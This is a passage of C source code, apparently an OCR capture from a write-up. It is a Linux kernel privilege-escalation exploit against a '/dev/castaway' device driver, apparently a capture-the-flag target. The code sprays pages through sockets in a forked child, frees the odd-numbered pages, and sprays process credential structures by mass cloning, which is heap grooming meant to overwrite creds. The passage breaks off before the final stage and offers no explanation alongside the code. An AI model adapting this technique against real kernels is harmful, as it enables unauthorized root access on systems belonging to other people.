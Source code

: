 ```c

void spray_pages() {
    struct ipc_req_t req;
    do {
        read(sprayfd_child[0], &req, sizeof(req));
        switch (req.cmd) {
            case ALLOC:
                socketfds[req.idx] = alloc_pages_via_sock(SIZE, req.idx);
                break;
            case FREE:
                close(socketfds[req.idx]);
                break;
            case QUIT:
                break;
            default:
                assert(0);
        }
        write(sprayfd_parent[1], &req.idx, sizeof(req.idx));
    }
    while (req.cmd != QUIT);
}

int main() {

    bind_cpu(0);
    fd = open("/dev/castaway", O_RDWR);
    if (fd < 0) {
        printf("Error opening device\n");
        return 1;
    }

    pipe(sprayfd_child);
    pipe(sprayfd_parent);
    pipe(rootfd);

    char data[0x200];;
    memset(data, 0, sizeof(data));

    puts("\033[32m[+] Start to spray pages\033[0m");
    if (!fork()) {
        unshare_setup(getuid(), getgid());
        spray_pages();
    }

    for (int i = 0; i < INITIAL_PAGE_SPRAY; i++) {
        spraypage_send(ALLOC, i);
    }

    puts("\033[32m[*] Initial pages sprayed\033[0m");
    puts("\033[32m[+] Start to free odd pages\033[0m");

    for (int i = 1; i < INITIAL_PAGE_SPRAY; i += 2) {
        spraypage_send(FREE, i);
    }

    puts("\033[32m[+] Start to spray creds\033[0m");
    printf("%p\n", &check_and_wait);
    for (int i = 0; i < CRED_JAR_SPARY; i++) {
        pid_t pid = __clone(CLONE_FLAGS, &check_and_wait);
        if (pid < 0) {
            errExit("clone");
        }
    }
```